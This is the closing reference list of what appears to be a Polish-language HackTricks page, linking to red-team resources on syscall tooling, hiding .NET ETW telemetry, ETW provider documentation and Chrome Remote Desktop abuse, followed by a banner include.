- [32] [SysWhispers4 – GitHub](https://github.com/JoasASantos/SysWhispers4)
- [33] [blog.xpnsec.com – ukrywanie Dotnet ETW](https://blog.xpnsec.com/hiding-your-dotnet-etw)
- [34] [repnz/etw-providers-docs](https://github.com/repnz/etw-providers-docs)
- [35] [trustedsec.com – nadużywanie Chrome Remote Desktop w operacjach Red Team: praktyczny przewodnik](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)
{{#include ../banners/hacktricks-training.md}}
